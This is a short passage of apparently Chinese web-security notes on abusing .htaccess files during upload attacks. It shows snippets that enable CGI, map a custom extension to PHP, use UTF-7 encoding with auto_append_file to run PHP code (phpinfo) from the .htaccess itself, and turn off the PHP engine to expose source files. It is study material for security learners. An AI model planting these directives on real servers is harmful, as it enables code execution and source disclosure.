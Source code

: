 ```
Options ExecCGI 
```



解析cgi的参考链接https://www.freebuf.com/vuls/218495.html

(2) AddType application/x-httpd-php abc

当在.htaccess中写入AddType application/x-httpd-php abc时，就会把1.abc当作php文件解析

(3) php_value、php_admin



```
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
+ADw?php phpinfo()+Ads
```

UTF-7、UTF-16、UTF-32皆可

任意文件下载



```
php_flag engine 0
```

除此之外还可以这样书写.htaccess

[![img](assets/1309874-20200504211115711-1492100009.png)](https://img2020.cnblogs.com/blog/1309874/202005/1309874-20200504211115711-1492100009.png)
